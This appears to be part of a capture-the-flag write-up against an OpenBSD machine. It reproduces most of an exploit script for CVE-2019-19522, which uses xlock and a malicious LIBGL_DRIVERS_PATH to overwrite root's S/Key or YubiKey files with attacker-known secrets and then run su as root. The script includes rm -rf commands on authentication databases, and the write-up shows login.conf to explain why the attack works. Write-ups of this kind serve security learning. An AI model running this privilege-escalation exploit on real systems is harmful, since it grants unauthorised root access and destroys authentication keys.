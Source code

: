 ```text
# uncomment to drop to a shell with auth group permissions
#env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display $display ; exit

echo
echo "WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C)."
echo
sleep 5

if [ "$target" = "skey" ]; then
  echo "[*] trying CVE-2019-19522 (S/Key) ..."
  echo "rm -rf /etc/skey/root ; echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root ; chmod 0600 /etc/skey/root" | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display $display
  rm -rf swrast_dri.so
  echo "Your password is: EGG LARD GROW HOG DRAG LAIN"
  env -i TERM=vt220 su -l -a skey
fi

if [ "$target" = "yubikey" ]; then
  echo "[*] trying CVE-2019-19522 (YubiKey) ..."
  echo "rm -rf /var/db/yubikey/root.* ; echo 32d32ddfb7d5 > /var/db/yubikey/root.uid ; echo 554d5eedfd75fb96cc74d52609505216 > /var/db/yubikey/root.key" | env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display $display
  rm -rf swrast_dri.so
  echo "Your password is: krkhgtuhdnjclrikikklulkldlutreul"
  env -i TERM=vt220 su -l -a yubikey
fi
```

The exploit was a shell script that I wrote to a file. It didn't seem to need any configuring so I ran it to see what it would do.

How this exploit works:

```text
openkeys# cat /etc/login.conf
# $OpenBSD: login.conf,v 1.12 2019/08/19 20:59:14 naddy Exp $

#
# Sample login.conf file.  See login.conf(5) for details.
#

#
# Standard authentication styles:
#
# passwd        Use only the local password file
# chpass        Do not authenticate, but change user's password (change
#               the YP password if the user has one, else change the
#               local password)
# lchpass       Do not login; change user's local password instead
# radius        Use radius authentication
# reject        Use rejected authentication
# skey          Use S/Key authentication
# activ         ActivCard X9.9 token authentication
# crypto        CRYPTOCard X9.9 token authentication
# snk           Digital Pathways SecureNet Key authentication
# tis           TIS Firewall Toolkit authentication
# token         Generic X9.9 token authentication
# yubikey       YubiKey authentication
#

# Default allowed authentication styles
auth-defaults:auth=passwd,skey:
#auth-defaults:auth=passwd:

```